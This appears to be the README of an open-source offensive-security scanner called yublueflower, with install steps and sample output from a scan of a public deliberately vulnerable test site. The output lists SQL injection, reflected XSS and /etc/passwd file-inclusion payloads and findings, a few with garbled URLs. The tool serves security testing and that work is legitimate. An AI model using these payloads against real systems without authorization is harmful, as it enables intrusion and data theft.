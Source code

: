 ```yaml
---
title: yublueflower
excerpt: A suite integrating open-source workflows tailored for offensive security.
date: 2025-03-01 01:37:00
tags: [yublueflower]
categories:
  - [1337rokudenashi]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


<h1 align="center">yublueflower</h1>

<p align="center">
  A suite integrating open-source workflows tailored for offensive security.
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white">
</p>

## Overview

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Usage:
yublueflower -url http://testphp.vulnweb.com/

Options:
-help                 Show help message.
-url <URL>            Scan as well as test utilizing security flaw templates.
-highly-aggressive    Highly aggressive testing.
-silent               Skip URL gathering noise to keep testing clean.
```

A suite integrating open-source workflows tailored for offensive security, yublueflower provides comprehensive vulnerability assessments.
This tool is designed to be flexible and effective in supporting offensive security workflows. It has been tested to work smoothly on WSL (Windows Subsystem for Linux) with Kali Linux.

## Features

- **Reconnaissance Phase**:
  - Aggressively gathering URLs.
- **Vulnerability Assessment Phase**:
  - Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates.
- **Reporting Phase**:
  - Results flawlessly generated.
- **Options**:
  - Highly aggressive testing.
  - Skip URL gathering noise to keep testing clean.

## System Requirements

- **Operating System**: WSL (Windows Subsystem for Linux) with Kali Linux
- **Dependencies**: go.dev (see [installation instructions](https://go.dev/doc/install))
- **Dependencies**: nodejs (see [installation instructions](https://nodejs.org/en/download))

## Installation

To install yublueflower, clone the repository and set up the tool as follows:

```bash
git clone https://github.com/1337rokudenashi/yublueflower.git
cd yublueflower
chmod +x yublueflower
bash yublueflower
```

## Usage

To run the tool, use the following command:

```bash
yublueflower -url http://testphp.vulnweb.com/
```

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Testing started at 13:37:01 01-03-2025
🟢 Reconnaissance Phase: Aggressively gathering URLs...
http://testphp.vulnweb.com/redir.php?r=https://getgophish.com/
http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 AND UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT (ELT(3477=3477,1))),0x716b786b71),6541)
http://testphp.vulnweb.com/artists.php?artist=1 order by 4
http://testphp.vulnweb.com/product.php?pic=3) AND 4294=2769 AND (1005=1005
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/?
http://testphp.vulnweb.com/showimage.php?ﬁle=13745325-cd3d-4961-b71d-d04727bb02b0
http://testphp.vulnweb.com/comment.php?aid=' UNION SELECT * FROM information_schema --
http://testphp.vulnweb.com/search.php?test=<USER_INPUT>
http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1 OR 17-7=10CONFIRMED
http://testphp.vulnweb.com/hpp/params.php?aaaa/=
http://testphp.vulnweb.com/login.php?id=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1 OR 17-7=10 PROCEDURE ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT (CASE WHEN (6706=6706) THEN 1 ELSE 0 END)),0x716a627a71)),1)
http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja
http://testphp.vulnweb.com/˓→artists.php?artist=0
http://testphp.vulnweb.com/secured/phpinfo.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42
http://testphp.vulnweb.com/pictures/credentials.txtA01http://testphp.vulnweb.com/product.php?pic=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-
http://testphp.vulnweb.com/˓→listproducts.php?cat=FUZZ*********************************************************
http://testphp.vulnweb.com/index.zipA01http://testphp.vulnweb.com/listproducts.php?artist=1A01
http://testphp.vulnweb.com/index.php?%id%=1
http://testphp.vulnweb.com/categories.php/listproducts.php?cat='
http://testphp.vulnweb.com/artist.php?artist=1
http://testphp.vulnweb.com/hpp/?pp=12
http://testphp.vulnweb.com/artists.php?artist=3
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/hpp/params.php?p=valid
http://testphp.vulnweb.com/showimage.php?file=./pictures/3.jpg
http://testphp.vulnweb.com/product.php?pic=6
🟢 Vulnerability Assessment Phase: Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates...
[waf-detect:nginxgeneric] [http] [info] http://testphp.vulnweb.com/
[php-errors] [http] [info] http://testphp.vulnweb.com/ ["Warning: mysql_connect()"]
[nginx-version] [http] [info] http://testphp.vulnweb.com/ ["nginx/1.19.0"]
[php-detect] [http] [info] http://testphp.vulnweb.com/ ["5.6.40"]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1+OR+17-7=10+PROCEDURE+ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT+(CASE+WHEN+(6706=6706)+THEN+1+ELSE+0+END)),0x716a627a71)),1)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/AJAX/infoartist.php?id=1+AND+UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT+(ELT(3477=3477,1))),0x716b786b71),6541)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:test] [GET]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt+src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja'"><69347> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>'"><69347> [query:test] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005'"><69347> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4'"><69347> [query:artist] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0'"><69347> [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=3' ["check the manual that corresponds to your MySQL server version","SQL syntax; check the manual that corresponds to your MySQL"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=6' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1'"><77225> [query:cat] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=6'"><77225> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/params.php?p=valid'"><77225> [query:p] [GET]
[linux-lfi-fuzz] [http] [high] http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp=12'"><77225> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=3'"><77225> [query:artist] [GET]
🟢 Reporting Phase: Results flawlessly generated...
Results at /home/yublueflower/glow_yublueflower
Testing finished at 13:44:01 01-03-2025
Use command glow yublueflower_20250301_133701 to see results.
```

## Contributing

We welcome contributions! Feel free to fork the repository, improve the tool, and submit a pull request.

## License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/1337rokudenashi/yublueflower/blob/main/LICENSE) file for details.

## Author

Developed and maintained by 1337rokudenashi.
